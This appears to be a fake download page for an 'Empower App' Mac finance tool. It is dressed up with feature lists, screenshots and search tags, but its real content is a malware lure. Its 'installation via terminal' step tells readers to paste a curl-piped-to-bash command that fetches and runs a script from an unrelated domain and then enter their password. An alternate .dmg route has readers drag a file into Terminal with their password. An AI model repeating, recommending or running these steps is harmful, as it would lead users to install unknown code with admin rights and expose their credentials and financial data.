 # Empower App — Download For Mac OS 💼

Empower App is a smart personal finance tool that helps users track spending, build savings, and plan better financial futures. This guide lets you install Empower safely on your Mac. 🧠

![empower](https://www.banks.com/wp-content/uploads/2021/06/Empower-app-logo-256X256.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](#)

If the button doesn’t work, follow the terminal instructions below to install it manually.

---

## 📦 How to Install Empower App For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Empower App

* 💸 **Track All Spending** — View detailed expenses by category in real time.
* 🏦 **Connect Bank Accounts** — Securely sync your financial institutions.
* 📅 **Auto-Save Feature** — Set savings goals and let Empower automate it.
* 📊 **Budgeting Tools** — Build customized budgets tailored to your lifestyle.
* 🔔 **Smart Alerts** — Get notifications for unusual transactions or bills.
* 💼 **Wealth Tracking** — Monitor your net worth and investments.

---

## About Empower App

Empower App for Mac is a robust finance and budgeting application designed to give users full control over their money. With intuitive tools and real-time financial data, Empower helps users manage their income, expenses, and savings — all from their Mac desktop. Whether you're tracking bills, setting savings goals, or optimizing your spending, Empower delivers everything you need.

One of the standout features is automatic expense categorization, giving you deep insights into where your money goes each month. Empower’s budgeting tools allow you to set custom limits, track progress visually, and receive alerts to stay within bounds. It’s built for people who want more awareness and fewer financial surprises.

Empower App also shines with its Smart AutoSave tool, which uses AI to determine how much you can safely save each week and transfers that amount automatically. This is a huge benefit for users who struggle with saving consistently. Combined with its savings goal tracking and bill detection, it becomes your complete financial assistant.

Finally, Empower offers top-level encryption and security, ensuring your personal and financial data is always safe. This Mac version offers all features from the mobile app — now in a convenient desktop format for better productivity and clarity.

---

## ✅ Empower App Benefits

* 🔐 Bank-level encryption and privacy
* 📱 Seamless mobile-to-Mac integration
* 🔄 Real-time syncing with financial accounts
* 🚨 Personalized alerts for smart decision-making
* 🧮 Smart AutoSave recommendations
* 🧭 Net worth and investment tracking in one place

---

## 🖼 Preview

![Empower Dashboard](https://robberger.com/wp-content/uploads/2023/02/desktop-dashboard-EMP-1024x748.png)
*Real-time overview of your net worth and account balances*

![Empower AutoSave](https://i.postimg.cc/x8xg45p0/empower-2.png)
*Smart AutoSave helping you build savings effortlessly*

![Empower Budget](https://i.postimg.cc/Y0ZzW9zJ/empower-3.png)
*Track and customize your monthly budget easily*

![Empower Insights](https://i.postimg.cc/L6hRmHk5/empower-4.png)
*Receive AI-powered insights to improve spending habits*

---

## 🔍 Tags

empower app, empowerment app, empower ai, empower loan app, empower app review, download empower app, empower app download, empower login app, empower loan application, empower app mac, download empower free, empower budget app for mac, financial tracker mac, empower finance for mac, money manager empower, empower app desktop version, best finance app mac, personal finance empower mac, empower spending tracker
